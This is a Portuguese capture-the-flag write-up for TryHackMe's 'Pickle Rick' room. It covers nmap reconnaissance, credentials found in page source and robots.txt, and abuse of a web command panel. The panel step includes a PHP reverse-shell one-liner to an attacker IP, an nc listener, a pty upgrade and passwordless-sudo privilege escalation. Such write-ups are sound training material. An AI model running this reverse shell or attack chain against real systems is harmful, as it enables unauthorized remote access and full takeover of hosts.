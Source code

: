 # Pickle Rick - TryHackMe CTF

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick-ctf.jpg)

- **Descrição:** Esse é um CTF tematizado que requer que você explore um webserver para encontrar 3 ingredientes/3 flags que ajudaram Rick a ser um humano novamente!
- **Categoria:** Exploração Web.
- **Nível:** Fácil.

## Passo 1: usando o nmap para obter algumas informações sobre o ip

```python
 root@kali:~/pickle-rick-ctf# nmap -A -p- 10.10.46.162 -oN nmap.log 
```
- **Resultado:**

```python
 Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 13:58 UTC
Nmap scan report for ip-10-10-46-162.eu-west-1.compute.internal (10.10.46.162)
Host is up (0.00070s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8a:4b:26:41:78:2f:ca:6e:c2:b5:38:b0:d5:0c:2b:34 (RSA)
|   256 6a:2c:68:6f:d4:ef:d4:6d:10:3c:16:54:c9:f1:36:ba (ECDSA)
|_  256 ff:14:2b:52:bb:b2:a6:cc:f7:44:d3:a2:ff:da:03:96 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:E9:E0:DF:B2:F1 (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.70 ms ip-10-10-46-162.eu-west-1.compute.internal (10.10.46.162)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.43 seconds 
```

## Passo 2: analisando o código fonte e enumerando

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick1-ctf.JPG)

- **Já conseguimos encontrar uma informação válida, um nome de usuário:** ``` R1ckRul3s ``` 

Podemos rodar o nmap mais uma vez, só que agora usando um script de enumeração:

```python
 root@kali:~/pickle-rick-ctf# nmap --script=http-enum 10.10.46.162
```

- **Resultado:**

```python
 Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 14:22 UTC
Nmap scan report for ip-10-10-46-162.eu-west-1.compute.internal (10.10.46.162)
Host is up (0.0014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
MAC Address: 02:E9:E0:DF:B2:F1 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```

- Acessando o caminho ***/robots.txt*** encontramos -> ```Wubbalubbadubdub```
- Acessando o caminho ***/login.php*** temos uma tela de login que exige usuário e senha


## Passo 3: fazendo login como administrador e pegando shell

- Se tentarmos logar com o usuário ``` R1ckRul3s ``` e a senha ```Wubbalubbadubdub``` conseguiremos ir para página de administrador

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick2-ctf.JPG)

- ***Note que temos um input, podemos passar um comando para ver se ele retorna algo***

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick3-ctf.JPG)

- Agora podemos ir no **[REVSHELLS](https://www.revshells.com/)** para pegarmos uma shell e usarmos:

- > php -r '$sock=fsockopen("10.10.181.45",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

- > nc -nlvp 4444 //para pegarmos a conexão na nossa máquina

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick4-ctf.JPG)

- 1 Recebos a shell e deixamos ela melhor com o comando ```python python3 -c "import pty;pty.spawn('/bin/bash')"```;
- 2 Pegamos a primeira flag/ingrediente e recebemos uma dica para procurar as outras flags/ingredientes;

## Passo 4: procurando as outras flags e escalando privilégios

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick5-ctf.JPG)

- Listamos a pasta do usuário rick e conseguimos a segunda flag

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick6-ctf.JPG)

- Tentamos listar a pasta ***/root*** porém não temos permissão;
- Executamos o comando sudo -l para verificar se o nosso user consegue usar algum comando com privilégios de usuário root atráves do sudo sem passar uma senha;
- Bingo! podemos executar TUDO como root usando sudo sem nenhuma senha.

![CTF IMG](https://github.com/wendelfraga/writeups-and-cbsnotes/blob/main/CTFS/TryHackMe/assets/pickle-rick7-ctf.JPG)

- Com isso conseguimos listar a pasta root e pegar a última flag!
- **OBS:** o endereço ip mudou durante o writeup pois foi necessário reiniciar a máquina do CTF.


